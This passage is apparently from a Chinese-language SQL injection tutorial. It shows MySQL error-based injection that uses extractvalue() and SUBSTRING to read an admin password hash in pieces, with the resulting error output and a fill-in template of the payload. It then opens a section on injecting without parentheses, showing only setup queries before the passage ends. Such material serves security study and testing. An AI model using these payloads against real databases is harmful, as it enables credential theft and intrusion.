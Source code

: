 

```plain
mysql> select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,SUBSTRING(password,1),0x7e) FROM test.tdb_admin limit 0,1)));
ERROR 1105 (HY000): XPATH syntax error: '~~7fef6171469e80d32c0559f88b3772'
```



select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,SUBSTRING(password,31),0x7e) FROM test.tdb_admin limit 0,1)))



sql讲解: select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,SUBSTRING(字段名,要开始读取的位置),0x7e) FROM 库名.表名 limit 0,1)))



```plain
mysql> select * from test where id=1 and extractvalue(1, concat(0x7e,(SELECT distinct concat(0x7e,SUBSTRING(password,31),0x7e) FROM test.tdb_admin limit 0,1)));

ERROR 1105 (HY000): XPATH syntax error: '~~45~'
```

# 三、case()绕过括号（）注入

# 0x00 概要



不允许 “括号” 出现时的注入方法



# 0x01 测试数据



```plain
mysql> select user();
+----------------+
| user()         |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```



```plain
mysql> select current_user;
+----------------+
| current_user   |
+----------------+
| root@localhost |
+----------------+
1 row in set (0.00 sec)
```
